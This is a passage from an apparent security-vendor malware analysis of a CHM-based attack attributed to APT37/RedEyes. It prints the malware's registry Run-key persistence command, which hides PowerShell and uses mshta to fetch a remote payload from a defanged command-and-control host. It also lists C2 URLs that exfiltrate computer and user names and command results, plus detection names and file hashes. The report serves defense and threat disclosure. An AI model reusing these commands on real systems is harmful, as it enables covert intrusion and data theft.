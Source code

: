 RUN Key Registration
Registry path: HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Value name: icxrNpVd
Value: c:\windows\system32\cmd.exe /c PowerShell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass ping -n 1 -w 361881 2.2.2.2 || mshta hxxp://shacc[.]kr/skin/product/1.html


C2
hxxp://shacc[.]kr/skin/product/mid.php?U=[Computer name]+[Username] // Receives threat actor’s commands
hxxp://shacc[.]kr/skin/product/mid.php?R=[BASE64-encoded] // Transmits the command execution results

Decoded PowerShell command
When a system is infected with this type of malware, the system can suffer great damage since this malware is capable of performing various malicious acts such as downloading files and extorting information according to the threat actor’s commands. In particular, malware that targets specific users in Korea may include content on topics of interest to the user to encourage them to execute the malware, so users should refrain from opening emails from unknown sources and should not execute their attachments. Users should also regularly scan their PCs and update their security products to the latest engine.
[File Detection]
Trojan/CHM.Agent (2023.03.03.03)
[IOC]
8d2eebd10d90953cfada64575328ae24
806fad8aac92164f971c04bb4877c00f
Subscribe to AhnLab’s next-generation threat intelligence platform ‘AhnLab TIP’ to check related IOC and detailed analysis information.


Categories:Malware Information 
Tagged as:APT37,chm,RedEyes,ScarCruft 




Decryptable iswr Ransomware Being Distributed in Korea 

PlugX Malware Being Distributed via Vulnerability Exploitation 







5
1
vote
Article Rating

 





 Subscribe




 Login 
